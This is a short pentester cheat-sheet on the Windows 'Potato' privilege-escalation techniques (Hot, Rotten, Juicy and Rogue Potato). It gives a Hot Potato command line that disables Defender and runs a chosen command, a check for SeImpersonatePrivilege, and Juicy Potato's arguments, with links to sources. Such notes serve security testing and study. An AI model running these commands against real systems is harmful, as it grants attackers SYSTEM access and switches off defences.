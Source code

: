 ```yaml
---
title: POTATOS
category: win privesc
order: 1
---
```


# HOT POTATO
---
[WPE-06 - Hot Potato](https://pentestlab.blog/2017/04/13/hot-potato/)

Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true


# ROTTEN POTATO
---
[WPE-10 - Token Manipulation](https://pentestlab.blog/2017/04/03/token-manipulation/)
 is  possible to escalate privileges from a service that is not running as SYSTEM but as a network service as well.

# JUICY POTATO
---
source: https://github.com/ohpe/juicy-potato
## detect
```
whoami /priv
SeImpersonatePrivilege  Enabled <- requirement or SeAssignPrimaryToken
```
## requirements  
* you need:
```
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097}) can peek anotherone from CLSIDs
```

# ROGUE POTATO  
---
https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
https://github.com/antonioCoco/RoguePotato
